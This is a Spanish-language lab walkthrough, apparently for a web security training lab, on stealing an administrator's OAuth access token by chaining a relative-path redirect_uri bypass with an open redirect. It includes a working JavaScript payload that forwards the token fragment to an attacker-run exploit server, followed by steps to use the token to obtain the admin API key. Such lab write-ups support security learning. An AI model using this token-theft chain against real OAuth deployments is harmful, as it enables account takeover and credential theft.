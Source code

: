En esta segunda clase, se encadena la redirección relativa (**../**) en el **redirect_uri** con la redirección abierta (**/post/next?path=**) para forzar que el flujo OAuth finalice en un servidor externo controlado por el atacante (exploit server).

Se construye un iframe malicioso que redirige al administrador (quien tiene sesión activa con el proveedor OAuth) a través del flujo de autenticación. El token de acceso resultante se incluye como fragmento (**#access_token=…**) en la URL de redirección final.

Mediante un pequeño script JavaScript en el exploit server, el fragmento es extraído y reenviado como parámetro de consulta (**/?access_token=…**), permitiendo su captura desde los logs del servidor.

Con el token ya robado, se realiza una solicitud autenticada al endpoint **/me** del blog, obteniendo así la API key del administrador. Esta clave es enviada como solución para completar el laboratorio.

La clase pone de relieve cómo una mala validación en **redirect_uri**, sumado a una redirección abierta interna, puede comprometer tokens sensibles sin necesidad de vulnerar el proveedor OAuth directamente.

Solucion
../post/next?path=
Entonces ahora necesitamos redirigir a la victima para eso vamos a crearnos un script el cual lo que ara es traer el apikey del administrador
(<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a38007603b7bcd080ff339002250043.oauth-server.net/auth?client_id=ssw7aglu9bjrzy5fj9tqp&redirect_uri=https://0a40007903afbced80f7357f00f0002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a74008e03d8bcfa809a34e3014c00a9.exploit-server.net/exploit&response_type=token&nonce=-2060465930&scope=openid%20profile%20email';
    } else {
        window.location = '/?'+ document.location.hash.substr(1);
    }
</script>)
![Pasted_image_20250830185131.png](Imagenes/Pasted_image_20250830185131.png)
le damos store y le damos acces log
![Pasted_image_20250830185229.png](Imagenes/Pasted_image_20250830185229.png)
copias el ultimo access_token
dentro del repeater en la seccion de /me lo modificamos en la parte que dice authorization y le damos send
![Pasted_image_20250830185311.png](Imagenes/Pasted_image_20250830185311.png)
de modo que nos dara la api key y con esa la copiamos y pegamos en el laboratorio
![Pasted_image_20250830185356.png](Imagenes/Pasted_image_20250830185356.png)
